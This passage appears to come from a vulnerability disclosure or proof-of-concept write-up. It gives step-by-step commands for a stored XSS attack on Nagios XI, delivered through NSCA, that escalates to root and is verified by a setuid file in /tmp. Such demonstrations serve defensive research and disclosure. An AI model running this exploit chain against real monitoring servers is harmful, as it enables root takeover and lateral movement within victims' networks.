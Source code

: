 ```
# config. If it's not already allowed, Add a line to allow the specific IP or
# subnet, such as `only_from += 192.168.0.0`. The IP or subnet is where the
# xi_nsca_xss.py script will connect from, and doesn't need to be the same as
# the migrate server, but it may be, depending on your setup.
> sudo vim /etc/xinetd.d/nsca

# If you change the file, restart the xinetd service to apply the configuration
# as shown below, or use an equivalent command if not on Ubuntu 20.04.
> sudo systemctl restart xinetd.service

# 3. On the Nagios XI client, run the script that will connect as an NSCA client
# and deliver the XSS payload file generated by migrate/run_in_docker.sh
> cd nsca_xss
> python xi_nsca_xss.py --xss_payload_file ../migrate/xss_payload.html <IP/Hostname of Nagios Server>

# 4. Log into the Nagios web console as admin, at which point you may be warned
# that the client on localhost is down depending on your configuration. Navigate
# to Details -> Host Status, then click on localhost in the host entry table to
# see the host details. Once you visit this page, the XSS payload will start, so
# just wait for the demonstration payload to run.
> firefox http://nagiosbox.lan/nagiosxi/
# For demonstration purposes, the payload includes a visible comment with text
# referencing XSS, and the payload will also pop an alert box after a safe
# amount of time has passed. If you want to run the payload more than once,
# delete the existing comment by clicking the red X button next to it.

# 5. At this point, the full chain should have run. On success, the exploit
# writes a file to disk owned by root.
> ls -la /tmp/proof_of_root
-rwsrwxrwx 1 root root 9 Sep 13 08:30 /tmp/proof_of_root
```

In our demonstration, we execute a payload that writes a file and
changes the permissions to show it is owned by root, but a real attacker
at this point would have all the privileges needed to establish a
persistent presence and begin surveying the Nagios server to see where
they can easily spread to within the network. Using the NRDP access
method would look nearly identical, except it starts with a simpler
method for executing external commands.

<figure>
<img src="images/migrate_attack.png" style="width:90.0%" alt="Diagram of escalating to root via XSS-triggered “migrate server” request" /><figcaption aria-hidden="true">Diagram of escalating to root via XSS-triggered “migrate server” request</figcaption>
</figure>
